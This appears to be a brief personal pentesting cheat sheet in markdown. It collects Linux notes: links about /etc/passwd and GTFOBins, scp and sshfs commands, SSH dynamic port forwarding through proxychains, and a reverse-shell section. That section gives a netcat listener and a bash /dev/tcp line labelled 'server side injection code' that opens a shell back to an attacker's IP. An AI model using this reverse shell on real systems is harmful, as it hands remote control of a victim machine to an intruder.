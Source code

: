 +++
title = "Something Interesting About Linux"
date = "2019-03-05"
weight = 100
+++

### Linux Introduction ###
[Understand the `/etc/passwd` file](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)    
[Understand `/etc/group` file](https://www.cyberciti.biz/faq/understanding-etcgroup-file/)     
[Very useful link: https://gtfobins.github.io](https://gtfobins.github.io/)
### Useful Commands ###
```html
crontab -l
aux -ps
```
#### SSH ####
```html
scp [source_file] [user]@$IP:[destination_path]
```
#### Mount ####
```html 
sshfs [user]@$IP:[destination_path] [source_file]
```

#### SSH Tunnel Dynamic Port Forwarding ####
```html
vim /etc/proxychains.conf (edit conf to set listening port)   
ssh -D <listening port> -l <username>        
proxychains <command> (nmap/firefox etc)
```           
#### Reverse Shell ####
#### Listen Side: ####
```html
nc -nlvp 12345
```
#### Server Side Injection Code: ####
Bash   
```html
/bin/bash -i >& /dev/tcp/&#60ip&#62/12345 0>&1
```      
